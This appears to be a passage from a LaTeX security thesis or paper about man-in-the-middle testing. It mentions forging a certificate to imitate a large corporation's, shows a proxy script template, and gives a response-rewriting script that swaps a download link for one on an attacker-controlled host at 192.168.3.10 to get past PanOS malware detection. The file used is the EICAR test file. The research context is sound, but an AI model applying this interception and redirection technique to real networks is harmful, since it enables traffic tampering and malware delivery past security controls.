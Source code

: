 \documentclass[status=normal,cover=tesi,language=en]{gmeepd}
\begin{document}
As mentioned earlier in the paper, the certificate can be forged meticulously to look like a big corporation's one.

\pagebreak

\subsubsection{Developing the Script}

Through the \verb|https.proxy.script| option, it is possible to develop a small javascript program that interacts with various proxy functions\cite{proxy-functions}:

\begin{verbatim}
 // called when the script is loaded
function onLoad() {

}

// called when the request is received by the proxy
// and before it is sent to the real server.
function onRequest(req, res) {

}

// called when the request is sent to the real server
// and a response is received
function onResponse(req, res) {

}

// called every time an unknown session command is typed,
// proxy modules can optionally handle custom commands this way:
function onCommand(cmd) {
    if( cmd == "test" ) {
        /*
         * Custom session command logic here.
         */

        // tell the session we handled this command
        return true
    }
}
\end{verbatim}

\pagebreak

In this case in order to bypass the Malware Detection in ``PanOS'', a small script was created that replaces the url of the malware on the external server with the url of the same malware but located on the attacker's machine.

\begin{verbatim}
function onResponse(req, res){
        var body = res.ReadBody();
        //Checks if there's a link to eicar.com
        if ( body.indexOf('<a href="./eicar.com">') != -1){
            res.Body = body.replace('<a href="./eicar.com">',
            '<a href="http://192.168.3.10/eicar2.com">');
        }
}
\end{verbatim}
\end{document}
